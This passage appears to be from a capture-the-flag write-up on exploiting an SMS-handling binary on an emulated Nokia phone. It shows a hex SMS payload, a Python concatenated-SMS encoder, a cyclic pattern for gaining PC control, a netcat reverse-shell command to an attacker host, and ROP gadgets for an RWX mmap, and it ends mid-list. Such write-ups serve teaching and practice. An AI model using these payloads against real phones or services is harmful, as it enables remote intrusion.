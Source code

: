 The result is a command like this where I specify that UHD is included and the sms is hex encoded:

```bash
smshex one 1 9999 05000317010a170069350100921a05b46b2a0100247017006935010069460b276b2a0100287017006935010001dfc0466b2a01002c70170069350100020012346b2a01003070170069350100253b24286b2a010034701700693501002f62696e6b2a010038701700693501002f7368006b2a01003c7017006935010001701700531f0100
```

## The attack
Now we can communicate via SMS with the phone and we also have a vulnerability. 

I wrote a small python function to encode SMSes:

```python
def encode_part(ref_num, data, CSMS=0x17, max_part=3):
    assert max_part <= 3
    header = "\x05\x00\x03" + chr(CSMS) + chr(max_part) + chr(ref_num)
    return header+data
```

We can craft few SMSes with payloads from the `cyclic` command of pwntools and find how to control the PC.

```python
c = "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwa"

print "smshex one 1 9999",encode_part(4, c[:134], max_part=1).encode("hex")
```

Now that we control PC challenge is solved right?

Actually was not so easy. Even if it was a nokia phone, in reality, it was a binary running on a Linux distro. So it had NX bit and ASLR enable. The binary was not PIE.

When I usually exploit a no PIE binary with ASLR and NX bit, I write a ropchain that leak something from the `.got` and then read again on top of the stack for a second stage rop that uses `libc`. But this time I did not have a connection to the binary. So was very hard to implement a second stage sent later.

The phone had Internet access and also `nc` installed. So the plan was to execute:

```c
system("nc myserver 9999 -e /bin/bash");
```

`system` was not in the .got so I need to do some computation from a value in the got to get the address for `system`. 
This stuff is hard while ropping, so the exploitation plan was slightly different: Let's map some executable address and write a shellcode that does a reverse connection.

So, I collected a few gadgets and built the ropachain that execute a `mmap` on an address the I can choose. Permissions for this new page are of course `RWX`.

```python
# 0x0001275e : ldr r3, [r5, #0x20] ; cmp r3, r4 ; bne #0x12760 ; ldrd r4, r5, [sp] ; add sp, #8 ; pop {r6, pc}
r3load = 0x0001275e
#0x000128fe : pop {r5, pc}
r5pop = 0x000128fe
#0x000118c6 : pop {r4, pc}
r4pop = 0x000118c6
#0x000172a6 : pop {r2, r3, r4, pc}
r234pop = 0x000172a6
#0x00016c12 : pop {r1, r4, pc}
r14pop = 0x00016c12
#0x00015c24 : pop {r0, r3, pc}
r03pop = 0x00015c24
#0x00012b4e : pop {r2, pc}
r2pop = 0x00012b4e
#0x000111c4 : pop {r3, pc} not thumb
```